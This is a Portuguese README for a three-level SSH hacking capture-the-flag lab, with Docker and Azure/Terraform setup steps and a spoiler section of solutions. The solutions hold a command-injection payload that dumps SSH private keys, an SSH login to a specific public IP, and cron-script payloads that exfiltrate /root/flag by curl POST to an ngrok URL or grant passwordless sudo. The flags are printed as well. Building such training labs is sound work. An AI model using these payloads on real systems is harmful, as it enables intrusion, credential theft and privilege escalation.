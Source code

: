 # ssh-game
Repositorio com objetivo de armazenar desafio de hacking relacionado a SSH

## nivel 1
Neste nível, o objetivo é que as pessoas possam navegar em uma interface que se pareça com um roteador.
Até encontrarem uma ferramenta de ping, que utiliza  command line para executar o teste.
Através disto, serão desafiadas a encontrar as chaves de conexão SSH do roteador, seguindo para o desafio nivel 2.
Terá uma flag no arquivo id_rsa, o mais importante para este momento.

## nivel 2
Este nível, é quase uma extensão, em termos de dificuldade, do nível 1.
A pessoa que obtiver as chaves, deverá trazê-las para sua máquina, modificar o nível de permissionamento deste (caso exista, se tratando de windows, isso não faz a menor diferença) e, depois, utilizar para conectar-se via SSH ao pseudo-roteador.
Após os passos descritos acima, é necessário montar o ambiente necessário para conexão via SSH, se for Windows, basta utilizar o Putty, se Linux, já existirá o ssh client nativo.
Ao obter a conexão, será exibido um BANNER de login com algumas instruções e a próxima flag.

## nivel 3
Este nível, é o mais difícil e aqui está como finalização, após este o comprometimento da máquina se dá por completo.
A pessoa que estiver jogando, será convidada a ler o conteúdo do arquivo /root/flag.
Para isso, será necessário realizar um privilege escalation através de uma tarefa cron.
Com isso, será demonstrado que, é possível ler uma tabela cron e saber se existem scripts desprotegidos e sendo executados como root.

## O que preciso instalar?
  * Docker
    Estes desafios estão FORTEMENTE acoplados a [Docker](https://docs.docker.com/get-docker/) e [Docker Compose](https://docs.docker.com/compose/install/). 
    O desafio 2 considera que existe Docker localmente para que possa iniciar sessões com experiência de SSH mas conectando-se ao tty e stdin dos containers executados.
  * Nodejs 12.x (via NVM ([linux](https://github.com/nvm-sh/nvm)/[windows](https://github.com/coreybutler/nvm-windows/releases)) ou [download direto](https://nodejs.org/en/))
  * SSH client (para Windows, [putty](https://www.putty.org/))
  * [AZ Cli](https://docs.microsoft.com/en-us/cli/azure/install-azure-cli)
  * Terraform (caso queira publicar a infra no Azure via AzureRM)

## Já instalei docker e docker-compose, o que faço agora?
Depois de ter instalado o que era necessário, basta rodar:
```bash
docker-compose build
docker-compose up
```

No caso de estar em ambiente Windows, o sock do docker é diferente, utilize:
```powershell
docker-compose -f docker-compose.windows.yml build
docker-compose -f docker-compose.windows.yml up
```

Os desafios estarão dispoíveis conforme descrito abaixo:
* nivel 1 - [http://localhost:4444](http://localhost:4444)
* nivel 2 - tcp://localhost:2222
* nivel 3 - usa a mesma conexão do nível 2

## Publicando na Azure
Após instalar `AZ Cli` e `terraform` de acordo com as recomendações para o seu sistema operacional, é necessário iniciar algumas etapas:
1. `az login` (para logar em sua conta, basta seguir o passo a passo ao abrir o navegador)
2. `az account show` (para verificar se está utilizando a subscription correta, para trocar veja este [link](https://docs.microsoft.com/en-us/cli/azure/account?view=azure-cli-latest#az_account_set))
3. Na pasta do terraform, `terraform init` (para baixar o provider do Azure, azurerm)
4. `terraform apply` (para que o terraform conecte no azure e crie o plano de provisionamento)
5. Existem duas variáveis para orientar o terraform a provisionar o ambiente na região correta da Azure e com o prefixo adequado, por padrão, tenho utilizado `var.location=brazilsouth` e `var.prefix=ssh-game` mas não são valores obrigatórios, sinta-se livre para mudar
6. Se estiver de acordo com o plano e a subscription usada, responda com `yes` ao prompt do `terraform`
7. Ao finalizar o provisionamento, o Public IP via `output`, do terraform, será exibido no terminal
8. Por enquanto, a publicação está sendo feita através de um simples git clone do meu repositório, ainda privado.
9. Quando este repositório virar público, não será mais necessário utilizar SSH para dar clone, serão removidas sessões de upload de chave SSH privada e alterado o clone para HTTPS

TLDR para o terraform (ainda precisa de login no `AZ Cli` 
```bash
terraform apply -auto-approve -var='location=brazilsouth' -var='prefix=ssh-game'
```
Leva em torno de 5 minutos para todos os recursos estarem provisionados e disponíveis ao uso.

## Não quero mais cobrança, quero destruir tudo isso ai lá na Azure 
```bash
terraform destroy -auto-approve -var='location=brazilsouth' -var='prefix=ssh-game'
```
Leva em torno de 5 minutos para destruir todos os recursos.


## Informações complementares
Para rodar estes desafios, será necessário ter ngrok instalado e, após isto, remapear, no `docker-compose.yml`, portas de nível root (80 e 22).
Portas altas foram usadas para não ser necessário qualquer privilégio administrativo enquanto desenvolvimento.
A experiência completa se baseia em parecer com um roteador de verdade, portanto, é necessário utilizar portas que sejam também usadas por tal.

### Usando Windows?
Algumas adaptações devem ser feitas para que o desafio seja bem sucedido:
- Ao colar a chave SSH no Notepad ou Visual Studio Code, quebre uma linha no fim do arquivo
- Ao salvar a chave, nomeie-a sem extensão ou extensões .txt ou .ppk
- Não use Putty como cliente SSH. Prefira o cliente SSH incluído no Windows 10 (Fall Creators Update ou mais recente), a partir do comando `ssh`


## ** SOLUÇÕES - ESTE ESPAÇO É PARA SPOILERS DO GAME, NÃO ABRA CASO QUEIRA JOGAR DE VERDADE **
<details><summary>TUDO BEM, ME MOSTRA LOGO COMO RESOLVE ESSA COISA TODA!</summary>
<p>

### Nivel 1
Para conseguir acesso às chaves, utilize comandos shell com `ls -la` e `cat` nos arquivos da pasta `.ssh` 
```bash
google.com && ls -la .ssh  && cat .ssh/id_rsa.pub && cat .ssh/id_rsa
```

FLAG: L3CTF{y0u_sh311_n0t_p4ss} 

### Nivel 2
Para conseguir uma flag, basta conectar-se via SSH na máquina.
A ideia é que a pessoa consiga entender o nome do usuário para logar (via chave pública, id_rsa.pub, no comentário do arquivo) e baixe o conteúdo da chave privada (id_rsa)
O IP já terá sido fornecido para as pessoas jogarem.
Abaixo, a chave privada foi criada em /tmp/id_rsa (copiar e colar conteúdo do nivel 1)
```bash
ssh -i /tmp/id_rsa -o StrictHostKeyChecking=no -p 22 temp_user@191.234.178.199
```

FLAG: L3CTF{y34h_y34h_g0t_th3_k3ys_n0t_th3_ch33s3_th3_k3ys}

### Nivel 3
Uma das possíveis soluções é, criar um arquivo `log.sh`, na home do temp_user para que faça um :
- cat /root/flag > /home/temp_user/flag.txt && chmod 777 /home/temp_user/flag.txt 
- curl -X POST --data-binary @/root/flag [URL_DO_NGROK] 
- echo "temp_user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
Qualquer uma destas soluções habilita a leitura do arquivo /root/flag
O arquivo log.sh pode ser descoberto através de um cat em /etc/crontab

FLAG: L3CTF{4r3_y0u_t3ll1ng_m3_y0u_h4ck3d_4_t1m3_m4ch1n3}

</p>
</details>

